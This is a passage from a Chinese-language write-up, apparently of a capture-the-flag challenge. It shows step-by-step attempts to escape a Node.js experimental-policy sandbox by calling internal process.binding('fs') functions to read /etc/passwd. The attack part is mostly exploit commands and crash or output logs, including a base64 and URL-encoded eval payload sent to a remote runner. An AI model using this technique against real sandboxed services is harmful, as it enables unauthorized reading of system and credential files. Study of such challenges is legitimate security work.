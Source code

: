 emmmmmmmm 草。我本地也是最新的 Node.js 所以和远程应该现象是一样的。不过我们可以看到，它明确指出了 `fs::Open()` 需要 5 个参数，所以再来试试。我也不知道缺那两个参数是啥，先填个 0 吧：

```nodejs
> buffer = Buffer.allocUnsafe(8192); process.binding('fs').read(process.binding('fs').open('/etc/passwd', 0, 0600, 0, 0), buffer, 0, 4096); buffer
node[1745716]: ../src/node_file.cc:2170:void node::fs::Read(const v8::FunctionCallbackInfo<v8::Value>&): Assertion `(argc) >= (5)' failed.
 1: 0x7f31a704d02d node::Abort() [/usr/bin/../lib/libnode.so.111]
 2: 0x7f31a704d376 node::Assert(node::AssertionInfo const&) [/usr/bin/../lib/libnode.so.111]
 3: 0x7f31a7065596  [/usr/bin/../lib/libnode.so.111]
 4: 0x7f31a742ff37  [/usr/bin/../lib/libnode.so.111]
 5: 0x7f31a7430b66 v8::internal::Builtin_HandleApiCall(int, unsigned long*, v8::internal::Isolate*) [/usr/bin/../lib/libnode.so.111]
 6: 0x7f31a72d03f9  [/usr/bin/../lib/libnode.so.111]
fish: Job 1, 'node' terminated by signal SIGABRT (Abort)
```

`fs::Read()` 也要五个参数：

```nodejs
> buffer = Buffer.allocUnsafe(8192); process.binding('fs').read(process.binding('fs').open('/etc/passwd', 0, 0600, 0, 0), buffer, 0, 4096, 0); buffer
node[1745894]: ../src/node_file.cc:2204:void node::fs::Read(const v8::FunctionCallbackInfo<v8::Value>&): Assertion `(argc) == (7)' failed.
 1: 0x7fc38dc4d02d node::Abort() [/usr/bin/../lib/libnode.so.111]
 2: 0x7fc38dc4d376 node::Assert(node::AssertionInfo const&) [/usr/bin/../lib/libnode.so.111]
 3: 0x7fc38dc65cad  [/usr/bin/../lib/libnode.so.111]
 4: 0x7fc38e02ff37  [/usr/bin/../lib/libnode.so.111]
 5: 0x7fc38e030b66 v8::internal::Builtin_HandleApiCall(int, unsigned long*, v8::internal::Isolate*) [/usr/bin/../lib/libnode.so.111]
 6: 0x7fc38ded03f9  [/usr/bin/../lib/libnode.so.111]
fish: Job 1, 'node' terminated by signal SIGABRT (Abort)
```

哦，改成要七个参数了：

```nodejs
> buffer = Buffer.allocUnsafe(8192); process.binding('fs').read(process.binding('fs').open('/etc/passwd', 0, 0600, 0, 0), buffer, 0, 4096, 0, 0, 0); buffer
<Buffer 72 6f 6f 74 3a 78 3a 30 3a 30 3a 3a 2f 72 6f 6f 74 3a 2f 62 69 6e 2f 62 61 73 68 0a 62 69 6e 3a 78 3a 31 3a 31 3a 3a 2f 3a 2f 75 73 72 2f 62 69 6e 2f ... 8142 more bytes>
```

看起来好了。扔远程看看：

```json
{"statusCode":500,"code":"1","error":"Internal Server Error","message":"Command failed: /usr/local/bin/node --experimental-policy=policy.json --policy-integrity=sha256-1NvUvTeQqHoo+XJv7zUAobD/VEaIGQ8CB3471GP2isY= runner.js -e=ZXZhbCh1bmVzY2FwZSgvJTJhJTJhJTJmIGJ1ZmZlciUyMCUzZCUyMCU0MnVmZmVyJTJlYWxsb2MlNTVuc2FmZSUyODgxOTIlMjklM2IlMjBwcm9jZXNzJTJlYmluZGluZyUyOCUyN2ZzJTI3JTI5JTJlcmVhZCUyOHByb2Nlc3MlMmViaW5kaW5nJTI4JTI3ZnMlMjclMjklMmVvcGVuJTI4JTI3JTJmZXRjJTJmcGFzc3dkJTI3JTJjJTIwMCUyYyUyMDA2MDAlMmMlMjAwJTJjJTIwMCUyOSUyYyUyMGJ1ZmZlciUyYyUyMDAlMmMlMjA0MDk2JTJjJTIwMCUyYyUyMDAlMmMlMjAwJTI5JTNiJTIwYnVmZmVyICUyZiUyYS8pK3VuZXNjYXBlKC8lMmEvKSk=\n(node:220) ExperimentalWarning: Policies are experimental.\n(Use `node --trace-warnings ...` to show where the warning was created)\nundefined:1\n/**/ buffer = Buffer.allocUnsafe(8192); process.binding('fs').read(process.binding('fs').open('/etc/passwd', 0, 0600, 0, 0), buffer, 0, 4096, 0, 0, 0); buffer /*//*/\n                                                                                                                ^^^^\n\nSyntaxError: Octal literals are not allowed in strict mode.\n    at eval (eval at <anonymous> (file:///app/backend/runner.js:9:17), <anonymous>:1:292)\n    at file:///app/backend/runner.js:9:17\n    at ModuleJob.run (node:internal/modules/esm/module_job:193:25)\n    at async Promise.all (index 0)\n    at async ESMLoader.import (node:internal/modules/esm/loader:518:24)\n    at async loadESM (node:internal/process/esm_loader:102:5)\n    at async handleMainPromise (node:internal/modules/run_main:66:12)\n\nNode.js v19.0.1\n"}
```
